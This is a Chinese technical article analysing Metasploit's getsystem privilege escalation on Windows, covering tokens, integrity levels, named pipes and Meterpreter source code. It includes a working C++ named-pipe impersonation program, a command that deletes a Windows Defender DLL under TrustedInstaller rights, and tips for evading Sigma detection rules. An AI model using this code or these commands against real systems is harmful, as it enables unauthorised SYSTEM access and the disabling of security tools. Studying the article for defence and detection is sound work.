



# 深入理解MSF之Getsystem - 先知社区

深入理解MSF之Getsystem

- - -

在渗透测试中，我们输入getsystem命令轻松就获得了一个system权限的shell，本文将解析幕后发生的工作流程和原理，了解了这些之后我们将以更加灵活的方式实现权限提升定制出我们需要的工具，并且更好的规避安全监测，在正式阅读之前，让我们简单学习一下几个概念辅助我们理解源码中的内容。

### 认识Windows访问控制模型

Window的访问控制模型如此复杂，以至于完全理解Windows权限是非常困难的，不过我们可以从宏观上做一个简单的理解：

1.  当windows完成了身份认证（例如开启输入密码、rdp登录、匿名登录等等）会生成一份主的访问令牌（access token）
2.  我们所有通过用户启动的进程都会有一份此访问令牌的副本，默认情况下，当进程的线程与安全对象（几乎所有的windows对象都是安全对象：文件、进程、服务等等）交互时，系统会使用主令牌
3.  进程的线程可以模拟客户端帐户，模拟允许线程使用客户端的Access Token与安全对象交互，拿到的令牌称之为模拟令牌。 模拟客户端的线程同时具有主令牌和模拟令牌

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120224451-77adf824-b7a2-1.png)

你可能好奇Access Token到底是什么，我们可以简单理解为一个windows内核对象，里面包含着各种信息：

-   **用户标识符（User Identifier）**：通常是一个唯一的账户安全标识符（SID），用于识别用户账户。
-   **组标识符（Group Identifiers）**：用户所属的一组或多组的SIDs，它反映了用户在不同的组中的成员资格。
-   **权限（Privileges）**：一个或多个权限，指明了线程所能执行的特定系统级操作（例如关机、改变系统时间、模拟客户端权限等）。
-   **所有者（Owner）**：该令牌指定的默认所有者SID。在创建对象时，通常会被用作对象的所有者。
-   **访问控制列表（DACL）**：指定哪些用户或组可以对对象执行何种操作。
-   **登录会话（Logon Session）**：一个标识符，指关联到此访问令牌的登录会话。

这些信息在c++里面都有对应的数据结构类型，我们要操控获取Access Token的信息是非常容易的，举一个简单的例子，下面是微软官方文档用户标识的TOKEN\_USER结构:

```plain
typedef struct _TOKEN_USER { 
        SID_AND_ATTRIBUTES User; 
} TOKEN_USER, *PTOKEN_USER;
```

SID\_AND\_ATTRIBUTES类型的User里面包含着sid

```plain
typedef struct _SID_AND_ATTRIBUTES { 
#if ... 
PISID Sid; 
#else 
PSID Sid; 
#endif 
DWORD Attributes; 
} SID_AND_ATTRIBUTES, *PSID_AND_ATTRIBUTES;
```

实现获取当下进程的用户的sid信息，同理其他信息也是一样的：

```plain
// token.cpp : 此文件包含 "main" 函数。程序执行将在此处开始并结束。
//
#include <iostream>
#include <Windows.h>
#include <processthreadsapi.h>
#include <sddl.h> 

int main()
{
    HANDLE hToken = NULL;
    BOOL bSuccess = FALSE;
    DWORD dwSize = 0;
    PTOKEN_USER pTokenUser = NULL;
    LPWSTR szSID = NULL;
    using namespace std;

    bSuccess = OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY, &hToken);
    if (!bSuccess) {
        return 1;
    }
    // 获取令牌信息所需的大小
    GetTokenInformation(hToken, TokenUser, NULL, 0, &dwSize);
    pTokenUser = (PTOKEN_USER)malloc(dwSize);
    // 获取访问令牌的用户信息
    if (GetTokenInformation(hToken, TokenUser, pTokenUser, dwSize, &dwSize)) {
        // 将SID转换成字符串形式
        if (ConvertSidToStringSid(pTokenUser->User.Sid, &szSID)) {
            // 标准输出SID字符串
            wcout << "User SID: \n" << szSID << endl;
            LocalFree(szSID);
        }
    }
    // 清理
    if (hToken) CloseHandle(hToken);
    if (pTokenUser) free(pTokenUser);
}
```

更简单的获取方法是直接输入`whoami /all`获取当下所有有关的信息，第一行就是用户名和SID：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120224620-ac74ac60-b7a2-1.png)

让我们进一步了解一下windows是如何进行安全检查的，这里又要引入几个概念，我们这里不会讨论非常详细的内容，能在一个宏观层面理解即可：

-   访问安全对象要进行安全检查，安全对象和安全描述符关联，决定了访问者能不能访问、能有什么权限
-   安全描述符包含着各种信息，主要包含着安全对象的归属角色和组的sid,以及ACL(访问控制列表)
-   ACL访问控制是ACE的集合，ACE（访问控制条目）若干个组成了ACL；每个ACL内包含着标识 ACE自己所应用的范围（具体是那些用户会话等等）；ACE的信息包含访问掩码，访问掩码控制着对象授予的权限（可读、可写、可执行等等）；ACE本身是有类型的，分为允许、拒绝、安全审核；
-   如果存在很多ACE，ACE的判断是有优先级的；一句话概括：显式大于继承，拒绝优先于允许；关于显式可以理解为ACE手动设定的，继承则是继承来自某个容器

上面说的非常抽象，我们可以举一个具体的例子，比方说我新建一个文本文件,找到属性安全，就不难发现里面规定了这三个用户能访问的权限，下面是system的权限，默认是完全控制：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120224645-bbdb9efc-b7a2-1.png)

选中右下角的高级，我们可以发现test.txt的ACE中endlessparadox用户是继承来自这个用户根目录（这里的容器就是文件夹）的权限：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120224657-c2c6f9b4-b7a2-1.png)

正常我们是可以查看文件里的内容的，但是假如我们添加一个明确的拒绝：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120224733-d81d8896-b7a2-1.png)

应用完成之后，文件的内容就会变得不可访问了，我们手动添加的拒绝权限优先级大于隐式的允许权限，再次访问文件系统拒绝了我们的请求：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120224747-e0981c48-b7a2-1.png)

我们可以总结一下认证的流程如下：进程中的线程通过携带访问令牌访问安全对象，通过系统安全检查依次执行ACE检查，如果完成检查则根据赋予特定的访问权限。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120224802-e9389ff8-b7a2-1.png)

#### User Account Control (UAC) 和 Mandatory Integrity Control （MIC）

微软在高版本的windows中引入了UAC（用户账户控制）（具体默认开启版本为： Windows 11, ✅ Windows 10, ✅ Windows Server 2022, ✅ Windows Server 2019, ✅ Windows Server 2016）的概念，旨在保护操作系统免遭未经授权的更改。当对系统的更改需要管理员级别的权限时，UAC 会通知用户，并提供批准或拒绝更改的机会，也就是我们经常安装程序看见的弹窗。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120224818-f2da54e8-b7a2-1.png)

如果你没听说过SysinternalsSuite的procexp64，你可以简单理解为是一个加强版的任务管理器，我们稍后会使用到这个工具，虽然不影响理解本文，但我还是强烈推荐去看微软官方的[Defrag Tools](https://learn.microsoft.com/en-us/shows/defrag-tools/2-process-explorer)系列视频有助于我们加深对Windows的理解

UAC和完整性实体密切相关，完整性实体分为7种，我们可以使用SysinternalsSuite的procexp64这款强大的系统工具以管理员身份运行进一步查看理解（如果你打开工具没看到这一栏是工具默认没选上，请选择启用）：

1.  System：最高的System完整性，为系统本身和一些服务保留。拥有全部privilege，避免受到恶意的代码损害，系统权限只能System访问，比较典型的就是lsass进程，里面存储着所有用户的认证材料，想要访问必须以System权限才能访问，可以看到右下角有大量的privilege特权：  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20240120224850-0646478a-b7a3-1.png)
    
2.  Installer: 关于Installer权限我查阅了全网并没有发现在那具体的进程有显示，procexp这类的权威的工具确确实实没有显示，但是微软文档又确实提到了关于Installer完整性的[存在](https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/modify-an-object-label)，它凌驾于System权限之上，拥有修改系统核心组件的能力，偶然间我突然想起来有个叫做[Tokenvator](https://github.com/0xbadjuju/Tokenvator)的token转换的工具确确实实能请求installer权限，让我们简单实验一下：
    

```plain
Tokenvator.exe GetTrustedinstaller /Command:c:\windows\system32\cmd.exe
```

可以看到我们的权限显示虽然还是System，但是我们已经加入进了Trustedlnstaller组

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120224915-1512c040-b7a3-1.png)

我们进一步查看发现这个具备Trustedinstaller的组具备28个权限比普通的System多了4个，分别是：

-   SeAssignPrimaryTokenPrivilege 替换进程级令牌 该特权允许分配进程的主令牌。拥有此特权的用户可以启动一个进程，以替换与已启动子进程关联的默认令牌
-   SeTcbPrivilege 该特权将其持有者标识为受信任计算机基础部分的一部分。这个用户权限允许一个进程在没有经过身份验证的情况下冒充任何用户。因此，该进程可以访问与该用户相同的本地资源
-   SeCreatePermanentPrivilege 请求创建永久对象。 这个特权对于扩展对象命名空间的内核模式组件非常有用。在内核模式下运行的组件已经固有地拥有这个特权；因此，不需要为它们分配这个特权
-   SeAuditPrivilege 拥有此特权的用户可以向安全日志添加条目

拥有如此高的权限是可以让我们删除Windows Dender,这是普通的System权限做不到的：

```plain
del "C:\Program Files\Windows Defender\MpSvc.dll"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120225004-321ec3fa-b7a3-1.png)

当然Installer可以看作System权限的一个强化版本，总之说法还是按照微软官方来吧

1.  high：高完整性，管理员账户和请求以管理员权限运行的进程的默认分配，比方说要为系统安装某些程序的时候就需要请求高完整性，右键以管理员身份运行就可以获得高完整性，也出现在某些监控程序上面，比方说我们现在用的监控程序。  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20240120225148-70124c5e-b7a3-1.png)
    
2.  medium：中完整性，标准用户账户和未明确指定较低或较高完整性级别的任何对象的默认分配，默认程序启动进程就是中等完整性，除非程序额外请求提升权限，否则从我们派生的进程会从高完整性降低为中完整性，一个典型的例子就是cmd进程：  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20240120225216-80d65c1a-b7a3-1.png)
    
3.  low: 低完整性，与互联网交互的进程的默认分配，比方说Skype.exe就是低完整性  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20240120225722-36ffaeb0-b7a4-1.png)
    
4.  Untrusted: 不受信任的，匿名登录的进程的默认分配，也出现在主流浏览器的上，什么权限都没有，浏览器要与大量外部数据交互，Windows设计成非常低的权限旨在即使浏览器本身出了严重的漏洞也能让浏览器什么都做不了：  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20240120225918-7c635614-b7a4-1.png)
    
5.  AppContainer: AppContainer 应用的进程及其子进程在轻量级应用容器中运行，其中它们只能访问专门授予它们的资源，权限非常小，基本上什么都干不了，典型代表有微软商店的WinStroeApp.exe进程，只有两个无关紧要的权限，除非开发者自己设计一般很少这种类型的完整性实体：  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20240120225932-84967fbe-b7a4-1.png)
    

### 认识Named Pipe（命名管道）和 SeImpersonate（模拟）

命名管道（Named Pipes）是一种简单的进程间通信（IPC）机制。命名管道可以在同一台计算机的不同进程之间，或者跨越一个网络的不同计算机的不同进程之间的可靠的双向或单向的数据通信，这在开发中是非常常见的技术

创建命名管道非常简单,使用CreateNamedPipe即可创建一个本地的命名管道，值得提一下的是最后一个参数代表命名管道的安全标识符，如果你愿意编写超级麻烦的ACE或者ACL，参考[文档](https://learn.microsoft.com/en-us/windows/win32/secauthz/security-descriptor-string-format), 但为了方便起见，我就写个NULL，这将继承默认的权限

```plain
const char pipename[] = "\\\\.\\pipe\\endlessparadox";
CreateNamedPipeA(pipename,
                PIPE_ACCESS_DUPLEX,
                PIPE_TYPE_BYTE | PIPE_WAIT,
                10,
                2048,2048,0, NULL);
```

这个管道就像是文件一样，采用“命名管道文件系统”（Named Pipe File System，NPFS）接口。因此，客户端和服务端均可以使用标准的WIN32文件系统API函数（如ReadFile和WriteFile）来进行数据的收发，就像是操控文件一样,非常方便

```plain
HANDLE clientPipe = CreateFile(pipeName, 
GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
```

完成创建管道之后我们就可以开启服务端监听：

```plain
ConnectNamedPipe(NamedPipehandle, NULL)
```

命名管道是支持模拟客户端权限的，为此我们需要利用到ImpersonateNamedPipeClient这个API去指定模拟高权限的句柄，此API调用完成之后windows将自动替换客户端的access token到我们服务端，这一个特性将导致后续一系列的提权技术，后续的技术都是围绕怎么样让具备高权限的进程向我们的进程发起认证请求:

```plain
ImpersonateNamedPipeClient(hPipe);
```

一旦完成模拟操作，我们当前进程的线程就有了客户端的高权限令牌，拿到这个令牌可以使用OpenThreadToken拿到

```plain
HANDLE hToken;
OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &hToken)
```

一旦hToken就位，我们使用DuplicateTokenEx函数复制一个已经存在的访问令牌，这个函数可以创建主令牌和模拟令牌

```plain
HANDLE hSystemTokenDup = INVALID_HANDLE_VALUE;
DuplicateTokenEx(hToken, 
                 TOKEN_ALL_ACCESS, 
                 NULL, SecurityImpersonation, TokenPrimary, &hSystemTokenDup)
```

为了让权限的变化更加明显，我们使用这个高权限的token创建一个新的cmd.exe进程，成功完成提权:

```plain
wchar_t  cmd[] = L"C:\\Windows\\system32\\cmd.exe";
CreateProcessWithTokenW(hSystemTokenDup, 
    LOGON_WITH_PROFILE, NULL, cmd, 0x00000400, NULL, NULL, &si, &pi) == false)
```

完整实现和演示效果

```plain
#include <Windows.h>
#include <iostream>
#include <vector>
#include <sddl.h>

int main() {
    using namespace std;

    wchar_t  cmd[] = L"C:\\Windows\\system32\\cmd.exe";
    const char pipename[] = "\\\\.\\pipe\\endlessparadox";

    //SECURITY_ATTRIBUTES sa = { 0 };
    //SECURITY_DESCRIPTOR sd = { 0 };

    //wchar_t message[] = L"misaki";

    //InitializeSecurityDescriptor(&sd, SECURITY_DESCRIPTOR_REVISION);
    //ConvertStringSecurityDescriptorToSecurityDescriptor(L"D:(A;OICI;GA;;;WD)", SDDL_REVISION_1, &((&sa)->lpSecurityDescriptor), NULL);

    HANDLE NamedPipehandle = CreateNamedPipeA(pipename,
        PIPE_ACCESS_DUPLEX,
        PIPE_TYPE_BYTE | PIPE_WAIT,
        10,
        2048,2048,0, NULL);
    if (NamedPipehandle == NULL) {
        cout << "NamedPipehandle " << GetLastError() << endl;
        getchar();
    }

    if (ConnectNamedPipe(NamedPipehandle, NULL) == false) {
        cout << "ConnectNamedPipe " << GetLastError() << endl;
        getchar();
    }

    if (ImpersonateNamedPipeClient(NamedPipehandle) == false) {
        cout << "ImpersonateNamedPipeClient " << GetLastError() << endl;
        getchar();
    }

    HANDLE hToken;
    if (OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &hToken) == false)
    {
        cout << "OpenThreadToken " << GetLastError() << endl;
        getchar();
    }
    HANDLE hSystemTokenDup = INVALID_HANDLE_VALUE;

    if (DuplicateTokenEx(hToken, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &hSystemTokenDup) == false) {
        cout << "DuplicateTokenEx " << GetLastError() << endl;
        getchar();
    }

    PROCESS_INFORMATION pi = { 0 };
    STARTUPINFO si = { 0 };
    si.cb = sizeof(STARTUPINFO);

    if (CreateProcessWithTokenW(hSystemTokenDup, LOGON_WITH_PROFILE, NULL, cmd, 0x00000400, NULL, NULL, &si, &pi) == false) {
        cout << "CreateProcessWithTokenW " << GetLastError() << endl;
        getchar();
    }
    cin.get();
    return 0;
}
```

我在具备system的权限上cmd输入了`echo 1 > \\localhost\pipe\endlessparadox`把输入写入命名管道，之后服务端将拉起一个新的具备客户端的权限，值得注意的是localhost是固定的写法，如何写成`\\.\`这导致模拟失败, windows error code 显示1368，这代表在从该管道读取数据之前，无法使用命名管道进行模拟，下面是正常效果：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120230124-c74d1188-b7a4-1.png)

当然，我们绕过UAC的token拥有SeImpersonate权限，同时大部分数据库和服务也有这个权限：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120230151-d7aedb6a-b7a4-1.png)

### 认识MS-RPC和UNC

那到底怎么样才能让高权限的进程向我们发起认证呢？这就和MS-PRC（微软远程过程调用）息息相关，MS-PRC是一项非常强大协议，它允许本地的PC1向远程的PC2发起RPC调用实现一系列的操作功能，首先我们理解一下RPC是如何建立的

假设现在有三台机器，PC2上启动了RPC服务端，默认的微软RPC服务监听在135，只要我们能访问135端口就可以调用PC2上RPC服务端执行一些操作，通过身份认证之后，我们可以有大量的函数（涉及文件操作，密码操作等等）可以让PC2去向PC3发起身份认证，如果是在域中，假如PC2是域控，PC3被我们控制又在域中的话，配合无约束委派我们就能拿域控的TGT了，不过这里我们要的是本地提权

也许你已经猜想到了，我们控制的是PC2，让RPC的过程调用访问发生在本机就好了，访问我们构造的恶意管道！真是合理的推测；如图所示是刚刚的描述：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120230211-e36c0d92-b7a4-1.png)

在RPC函数中要欺骗的正是UNC，UNC（Universal Naming Convention）路径，Windows 操作系统有一个指向所有资源（包括文件）的统一对象模型。 可从控制台窗口访问这些对象路径；并通过旧版 DOS 和 UNC 路径映射到的符号链接的特殊文件，将这些对象路径公开至 Win32 层，如果要访问一个文件其实有很多种方法，以下是微软给出的一些写法：

```plain
string[] filenames = {
            @"c:\temp\test-file.txt",
            @"\\127.0.0.1\c$\temp\test-file.txt",
            @"\\LOCALHOST\c$\temp\test-file.txt",
            @"\\.\c:\temp\test-file.txt",
            @"\\?\c:\temp\test-file.txt",
            @"\\.\UNC\LOCALHOST\c$\temp\test-file.txt",
            @"\\127.0.0.1\c$\temp\test-file.txt" };
```

标准的 DOS 路径可由以下三部分组成：

-   卷号或驱动器号，后跟卷分隔符 (`:`)。
-   目录名称。 [目录分隔符](https://learn.microsoft.com/zh-cn/dotnet/api/system.io.path.directoryseparatorchar#system-io-path-directoryseparatorchar)用来分隔嵌套目录层次结构中的子目录。
-   可选的文件名。 [目录分隔符](https://learn.microsoft.com/zh-cn/dotnet/api/system.io.path.directoryseparatorchar#system-io-path-directoryseparatorchar)用来分隔文件路径和文件名。

上面这些写法文件都是UNC表示方法，现在大部分前置知识已经讲完，我们终于可以进入正题了

### 认识Getsystem的流程

当控制台输入`getsystem -h`命令的时候我们不难发现有6种技术可以实现获取system权限

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120230239-f47f1e4e-b7a4-1.png)

[阅读源码](https://github.com/rapid7/metasploit-payloads/blob/master/c/meterpreter/source/extensions/priv/elevate.c#L73)我们可以很轻松的理解getsystem的执行流程，elevate\_getsystem函数负责处理getsystem的全流程，当我们没有指定dwTechnique的时候默认是ELEVATE\_TECHNIQUE\_ANY，就会进入循环依次执行:

-   elevate\_via\_service\_namedpipe
-   elevate\_via\_service\_namedpipe2
-   elevate\_via\_service\_tokendup
-   elevate\_via\_service\_namedpipe\_rpcss
-   elevate\_via\_namedpipe\_printspooler
-   elevate\_via\_namedpipe\_efs

如果某个技术成功就直接退出循环并返回一个system的access token：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120230302-01a6a5ce-b7a5-1.png)

演示使用getsystem：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120230320-0c619d5c-b7a5-1.png)

当然我们也可以放弃system的权限，降低回原来的权限：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120230345-1ba91c4a-b7a5-1.png)

### MSF内置实现的六种Getsystem技术

#### 第一种技术 elevate\_via\_service\_namedpipe

让我们直接跳进[代码](https://github.com/rapid7/metasploit-payloads/blob/master/c/meterpreter/source/extensions/priv/namedpipe.c)中理解：

1.  函数开始准备了大量复杂的数据结构用于接受控制信息：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120230421-30d44112-b7a5-1.png)

1.  随后进入操作系统的版本检查，如果无法获得操作系统的版本信息就直接退出，之后利用os.dwMajorVersion 判断是否是NT4，如果是NT4就直接退出，NT4是上个世纪的操作系统了，虽然那个时代windows就有了基于access token身份认证机制，但是msf编写exp调用的标准Win32 API最少需要windows 2000/xp：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120230452-4366d25e-b7a5-1.png)

1.  继续往下，msf通过自己的met\_api结构获取服务名称，我们深入理解一下：`_snprintf_s`是一个格式化字符串的函数，主要用于将格式化的数据写入一个缓冲区，下面的两个`_snprintf_s`都将准备好cServicePipe和cServiceArgs这两个变量的参数，也就是服务管道和服务参数

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120230550-661ca22e-b7a5-1.png)

我们对met\_api有点好奇，它是一个核心控制的数据结构，通过它我们可以调用各种msf实现的apI，后面也会经常看到[met\_api](https://github.com/rapid7/metasploit-payloads/blob/master/c/meterpreter/source/common/common_metapi.h)的身影：

```plain
typedef struct _MetApi {
    PacketApi packet;          // 数据包相关的API
    CommandApi command;        // 命令相关的API
    ThreadApi thread;          // 线程相关的API
    LockApi lock;              // 锁（同步机制）相关的API
    EventApi event;            // 事件相关的API
    ChannelApi channel;        // 通道相关的API
    SchedulerApi scheduler;    // 调度器相关的API
    StringApi string;          // 字符串相关的API
    InjectApi inject;          // 注入相关的API
    DesktopApi desktop;        // 桌面（Desktop）相关的API
    ListApi list;              // 列表相关的API

#ifdef DEBUGTRACE
    LoggingApi logging;        // 调试追踪相关的API
#endif
} MetApi;

// 全局的 Meterpreter API 对象指针
extern MetApi* met_api;
```

1.  一切准备就绪就可以创建线程来执行了，利用met\_api启动新线程执行elevate\_namedpipe\_thread方法，并在主线程中等待该线程的完成，最终通过等待信号量 `hSem` 来确保子线程完成了创建命名管道的的任务

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120230719-9b5d4074-b7a5-1.png)

1.  检查服务是否启动，如果没有服务局创建它，直接启动，这个利用cmd.exe的服务不是一个合法的服务型exe，它肯定会失败，这里msf没有检查是否成功

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120230753-af86a914-b7a5-1.png)

1.  后续只是一些线程清理和句柄释放的代码，也很简单

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120230808-b883dcbc-b7a5-1.png)

总结一下：Named Pipe Impersonation技术使用了基于服务的命名管道技术，当我们是管理员的时候，并且windows令牌没有被UAC过滤过，具备模拟特权，msf可以通过创建一个system的服务向我们模拟的命名管道发起认证，从而窃取到system级的立牌

##### OPSEC 操作安全

我们可以看看sigma的日志解析规则是如何解析捕获这个[提权技术](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/builtin/security/win_security_meterpreter_or_cobaltstrike_getsystem_service_install.yml)，如果之前也没接触过sigma无需担心，可以简单理解为一个日志解析规则，通过收集系统上的各种日志来匹配系统上发生了ATT&CK的行为，这种规则在大企业的ATT&CK检测中非常常见：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120230834-c7be57a2-b7a5-1.png)

的确是简单粗暴，直接匹配带有命名管道的服务，下面的检测Cobaltstrike也逃不过，CS只不过替换了个环境变量，本质依然调cmd进程去拉服务，我们自己实现的话可以利用命令行混淆技术混淆掉echo和pipe，这里不展开了，当然启动一个服务始终不是一个好的选择

#### 第二种技术 elevate\_via\_service\_namedpipe2

这项技术和第一种技术类型是一样的，只不过稍微有所区别的是写入的 DLL 文件到磁盘，然后启动服务运行 ​​rundll32.exe 以 SYSTEM 身份运行 DLL 文件，核心改变如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120230900-d793d67a-b7a5-1.png)

##### OPSEC 操作安全

继续解读刚刚到sigma规则，很明显落地一个dll放在temp目录下是非常可疑的，同时利用 rundll32.exe去执行dll，重新实现这得同时绕过文件的签名检测和命令行检测，这项技术无疑不是我们的首选项

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120230935-ebe26c36-b7a5-1.png)

#### 第三种技术 elevate\_via\_service\_tokendup

这项技术默认我们需要SeDebugPrivilege特权，SeDebugPrivilege是非常强大的特权，允许我们读写任意的内存空间，这也意味着我们可以注入任意的代码到高权限的进程中到达提权效果；让我们进一步看看代码是如何实现的：

1.  判断系统版本信息是否适用于此技术，检查了 x86 系统和 NT4

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120231108-23d2cb4a-b7a6-1.png)

1.  接着利用met\_api的核心方法调用获取服务相关信息，并进行异常判断

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120231124-2d66fd66-b7a6-1.png)

1.  利用OpenSCManagerA 建立一个和服务控制管理的链接，标志SC\_MANAGER\_ENUMERATE\_SERVICE 代表列出权限， 需要调用EnumServicesStatus列出数据库中的服务，第一次调用是为了获取所需的缓冲区大小，而第二次调用则是为了实际获取服务的详细信息

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120231149-3c327e4c-b7a6-1.png)

1.  随后进入循环，利用OpenServiceA和QueryServiceStatusEx拿到每次遍历进程的pid，之后利用OpenProcess打开对应进程，因为已经假定我们有了sedebug特权

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120231207-46b09ad4-b7a6-1.png)

1.  接下来是使用了非常经典的DLL反射式注入技术，VirtualAllocEx分配内存，WriteProcessMemory写入内存，LoadRemoteLibraryR反射式加载，如果有兴趣可以查看先知社区其他文章理解DLL反射式注入，这里我们只需要知道这项技术可以不落地文件在内存中注入运行任意dll就可以了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120231222-4faf15d4-b7a6-1.png)

1.  等待线程执行完毕，之后复制出注入线程dll的立牌并更新到当下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120231242-5beab97a-b7a6-1.png)

##### OPSEC 操作安全

这项技术依赖于sedebug特权和x86架构，适用范围非常小目前没有对应的sigma规则，不过因为运用到了公开的反射式加载dll的技术，如果杀毒内存查杀严重就很有可能失败，这部分可以擦除nt头和dos头去实现进一步的内存规避。

#### 第四种技术 elevate\_via\_service\_namedpipe\_rpcss

这项技术运用的是RpcSsImpersonator技术提权的变体，RpcSsImpersonator技术允许我们从Network Service账户提权到SYSTEM，也允许我们从Administrator提权到SYSTEM，现在直接来分析核心的源代码，下面是[rpcss代码](https://github.com/rapid7/metasploit-payloads/blob/master/c/meterpreter/source/extensions/priv/namedpipe_rpcss.c)函数的调用关系

```plain
entry point 
-> elevate_via_service_namedpipe_rpcss()
-> post_callback_use_rpcss() 
-> get_system_token() 
-> get_token_object_index()
```

查看elevate\_via\_service\_namedpipe\_rpcss，前几行代码和之前的工作一样，都是检测版本，过滤掉低于windows 8.1和2012 R2的系统保证兼容性

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120231310-6c883a1e-b7a6-1.png)

这里准备了两个参数cPipeName1和cPipeName2，实际上是同一个命名管道，之前的注意事项要求我们访问写入数据必须要localhost，否则写入就失败了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120231327-762ab754-b7a6-1.png)

随后创建了一个新的线程这个线程，在新线程中执行post\_callback\_use\_rpcss回调函数

